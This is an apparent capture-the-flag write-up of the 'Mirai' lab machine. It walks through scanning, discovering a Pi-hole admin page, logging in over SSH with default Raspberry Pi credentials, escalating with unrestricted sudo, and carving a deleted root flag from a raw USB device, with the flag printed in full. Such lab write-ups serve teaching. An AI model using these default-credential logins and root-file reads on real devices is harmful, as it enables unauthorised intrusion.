



`Box: Linux`
`Level: Easy`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Scan`](#`Initial%20Nmap%20Scan`)

### `Box Info`
```
Mirai demonstrates one of the fastest-growing attack vectors in modern times; improperly configured IoT devices. This attack vector is constantly on the rise as more and more IoT devices are being created and deployed around the globe, and is actively being exploited by a wide variety of botnets. Internal IoT devices are also being used for long-term persistence by malicious actors.
```

### `Initial Nmap Scan`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.10.48
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-title: Website Blocked
|_http-server-header: lighttpd/1.4.35
1333/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
```

### `Web Enumeration`

The URL `http://10.10.10.48/` returns the blank page but looking at the Burp, There was one out of the box HTTP Response Header pops-up.

`X-Pi-Hole: A black hole for Internet advertisements` Alternatively you can change the `Host:` in the HTTP requests and send the request again to verify the HTTP response.



Just changing the `Host:` field in the HTTP request, reveals the url `http://pi.hole/admin/` for us. We can add it to host file. We can also perform the `dig` on it.
```
# dig @10.10.10.48 pi.hole

; <<>> DiG 9.19.21-1+b1-Debian <<>> @10.10.10.48 pi.hole
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 25470
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;pi.hole.                       IN      A

;; ANSWER SECTION:
pi.hole.                300     IN      A       192.168.204.129

;; Query time: 47 msec
;; SERVER: 10.10.10.48#53(10.10.10.48) (UDP)
;; WHEN: Thu Oct 10 02:42:12 EDT 2024
;; MSG SIZE  rcvd: 52
```

The `ANSWER SECTION:` reveals the IP `192.168.204.129`. I don't know what that IP is so I am going to add pi.hole in the host file.
###### `GoBuster on port 80`
```
# gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/versions             (Status: 200) [Size: 18]
Progress: 220560 / 220561 (100.00%)
```
\\

I tried few passwords here but none of them was working.
`The Pi-hole® is a DNS sinkhole that protects your devices from unwanted content, without installing any client-side software.`

Looking on the Pi-Hole Forum, I found one of the creds. Although this wasn't working on the Web but it worked on SSH.
### `Initial SSH as Pi User & got User Flag`
```
# ssh pi@10.10.10.48
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707**************
```
Get the user  flag.

### `Privilege Escalation`

Running `sudo -l` gives me the following result.
```
pi@raspberrypi:/media/usbstick $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

It means I can run any command just providing the `sudo`. At this stage, I felt like I owned it but the story unfold in a manner that I didn't expected AT ALL! Just follow the command below

```
pi@raspberrypi:/media/usbstick $ sudo cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Okay so the `root.txt` does not contain the flag. it says the original root.txt is lost. Let's go to `/media` and find out.

```
pi@raspberrypi:/media/usbstick $ ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found

pi@raspberrypi:/media/usbstick $ cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Okay so the files are gone. We will have to recover the file from this mounted USB stick drive.

### `Recover Deleted Flag (Files)`

When the file gets deleted, the structure of the filesystem removes the metadata for that file that includes the `timestamps`, `filename` and `pointer to where the raw file is on the disk`. The DELETE operation does not go to that point on the disk and do anything to cleanup the data such as writing the null character in a file content. That means there is a possibility that the content of the `root.txt` file is still present on the disk even though the filesystem no longer knows of a file by that name.

Looking at the following `lsblk` command output, We know that the file `/media/usbstick` belongs to the raw disk `sdb`.
```
i@raspberrypi:/media/usbstick $ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```

We know that our flag is 32 character long. We can use the following simple `grep` command to recover the flag.
```
pi@raspberrypi:/dev $ sudo grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
3d3e483143ff12ec505d026fa13e020b
```

`-a: Process a Binary file as if it was a text file`. 
`-P: Interpret the Pattern as the Perl Regular Expression`
`-o: Print only the matched parts of the matching lines with each such part as a separate output line.`

We got our flag. But There are other ways too. That is using `strings` Command.

```
pi@raspberrypi:/dev $ sudo strings /dev/sdb 
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

There we have a flag in the output. if you are unsure about building the grep pattern.

Get your root flag.

